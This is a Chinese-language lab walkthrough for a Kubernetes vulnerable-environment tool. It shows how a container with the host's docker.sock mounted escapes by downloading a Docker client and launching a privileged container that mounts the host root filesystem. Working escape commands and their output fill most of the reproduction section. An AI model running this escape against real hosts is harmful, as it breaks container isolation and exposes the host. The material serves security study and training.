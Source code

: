 # 挂载docker.sock导致容器逃逸

## 场景介绍

Docker Socket是Docker守护进程监听的Unix域套接字，用来与守护进程通信——查询信息或下发命令。如果在攻击者可控的容器内挂载了该套接字文件（/var/run/docker.sock），可通过Docker Socket与Docker守护进程通信，发送命令创建并运行一个新的容器，将宿主机的根目录挂载到新创建的容器内部，完成简单逃逸。

## 环境搭建

基础环境（Docker+K8s）准备（如果已经有任意版本的Docker+K8s环境则可跳过）：

```bash
./metarget gadget install docker --version 18.03.1
./metarget gadget install k8s --version 1.16.5 --domestic
```

漏洞环境准备

```
./metarget cnv install mount-docker-sock
```

执行完成后，K8s集群内`metarget`命令空间下将会创建一个名为`mount-docker-sock`的pod。

宿主机的`/var/run/docker.sock`被挂载在容器内部。

## 漏洞复现

通过以下两个步骤来完成简单逃逸：

1. 在容器内安装Docker命令行客户端
2. 使用容器内的客户端通过Docker socket与Docker守护进程通信，发送命令创建并运行一个挂载宿主机根目录的容器，实现基本逃逸。

具体操作如下:

执行以下命令进入容器:

```
kubectl exec -it mount-docker-sock -n metarget bash
```

在容器内安装Docker命令行客户端:

```
先将源替换为中科大源
sed -i 's/archive.ubuntu.com/mirrors.ustc.edu.cn/g' /etc/apt/sources.list
apt update&& apt install -y wget
然后下载编译好的docker 客户端
wget https://download.docker.com/linux/static/stable/x86_64/docker-17.03.0-ce.tgz
tar xf ./docker-17.03.0-ce.tgz
cd /docker
```

成功安装Docker客户端:

```
root@mount-docker-sock:/#cd /docker
root@mount-docker-sock:/docker#ls
docker  docker-containerd  docker-containerd-ctr  docker-containerd-shim  docker-init  docker-proxy  docker-runc  dockerd
```

执行docker命令`docker ps`,结果和宿主机相同，证实docker.sock挂载成功：

![image-20210618140609650](images/1.png)

然后可以借此启动一个挂载宿主机根目录的特权容器，完成简单逃逸：

```
root@mount-docker-sock:/docker#./docker run -it -v /:/host --privileged --name=sock-test ubuntu /bin/bash
root@1cec1bf980fb:/# ls /host/
bin   dev  evil  initrd.img      lib    lost+found  mnt  proc  run   snap  swap.img  tmp  var      vmlinuz.old
boot  etc  home  initrd.img.old  lib64  media       opt  root  sbin  srv   sys       usr  vmlinuz  w00t_w00t_im_a_flag
root@1cec1bf980fb:/# cat /host/etc/hostname
cloudplay
```

## 参考文献

https://mp.weixin.qq.com/s/_GwGS0cVRmuWEetwMesauQ